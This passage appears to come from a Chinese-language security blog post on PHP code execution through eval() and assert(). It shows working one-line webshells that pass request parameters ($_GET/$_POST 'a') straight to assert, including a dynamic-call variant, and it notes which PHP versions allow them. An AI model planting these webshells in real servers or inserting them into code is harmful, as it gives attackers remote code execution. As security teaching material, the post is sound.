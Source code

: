 ```php
<?php

error_reporting(0);

eval('phpinfo();');
```

![Snipaste_2018-10-21_13-04-44.png](https://whitecell.io/upload/attach/201810/151_4R2467CSBY9Q5JX.png "Snipaste_2018-10-21_13-04-44.png")

### assert()

普通调用

```php
//?a=phpinfo()
<?php assert($_POST['a']);?>
```

```php
<?php

error_reporting(0);

//?a=phpinfo()
assert($_GET['a']);
```

![Snipaste_2018-10-21_13-23-20.png](https://whitecell.io/upload/attach/201810/151_HXVVYCNB87T3WBN.png "Snipaste_2018-10-21_13-23-20.png")

assert函数支持动态调用

```php
//?a=phpinfo()
<?php
$a = 'assert';
$a($_POST['a']);
?>
```

```php
<?php

error_reporting(0);

//?a=phpinfo()
$a = 'assert';
$a($_GET['a']);
```

![Snipaste_2018-10-21_13-27-58.png](https://whitecell.io/upload/attach/201810/151_USCP7Z56YBR3WEK.png "Snipaste_2018-10-21_13-27-58.png")

php官方在php7中更改了assert函数。在php7.0.29之后的版本不支持动态调用。

![Snipaste_2018-10-21_13-29-53.png](https://whitecell.io/upload/attach/201810/151_DXWCU63MFG37SE7.png "Snipaste_2018-10-21_13-29-53.png")


[1]: http://mannix.top/
[2]: https://www.anquanke.com/post/id/162128